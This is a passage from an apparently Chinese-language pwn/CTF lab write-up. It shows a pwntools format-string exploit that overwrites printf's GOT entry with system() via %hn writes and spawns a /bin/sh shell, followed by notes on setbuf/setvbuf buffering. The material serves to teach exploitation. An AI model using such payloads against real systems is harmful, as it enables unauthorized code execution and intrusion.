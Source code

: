 ```python
log.info("system_add is:[%s]"%hex(system_addr))
#pause()

payload = '%' +str(system_addr &0xffff) +'c%7$hn' #在printf_got中写入system的地址的低2个字节
payload += '%' +str((system_addr>>16) - (system_addr &0xffff)) +'c%11$hn'#在printf_got+2写入system的地址的高2个字节
'''
这里需要注意的是，我们把system的地址的前后两个字节分别写到fmt-7和fmt-11中，
在写入后两个字节的时候要注意减去前面输入的(system_addr &0xffff))，这是因为
%n写入操作是算累积输入的字符个数
'''
p.sendline(payload)
p.recv()

while True:
    p.send("23r3f")
    sleep(0.1)
    data = p.recv()
    if data.find("23r3f") != -1:
        break

p.sendline("/bin/sh") #调用printf("/bin/sh")相当于system("/bin/sh")
'''
这个时候输入参数到栈中，本来下一步程序会调用printf函数，但是此时printf函数的got表
已经被修改为system的地址了，此时就会执行system并且从栈中取bin/sh参数
于是就这样getshell
'''
p.interactive()
```



### lab10+

以后就是堆题了，转战how2heap的学习后，再完成。

### 其他补充

#### setbuf与setvbuf

这两个函数在刚刚接触pwn的时候就迷惑我很久了。以前都基本没什么管他们

> void setbuf(FILE *stream,char *buf);
>
> void setvbuf(FILE *stream,char *buf,int type,unsigned size);

##### 为什么设置缓冲区？

缓冲区指的是为标准输入与标准输出设置的缓冲区，设置缓冲区主要是从效率上来考虑的，如果不设缓冲区会降低cpu的效率，因为它总是会等待用户输入完之后才会去执行某些指令！

##### 缓冲区类型

**默认情况下**，系统会自动的为**标准输入与标准输入**设置一个缓冲区，**缓冲区的大小通常是4Kb的大小**[与分页大小有关，每个页的大小是4Kb]，并且这个缓冲区的类型是**全缓冲**的！
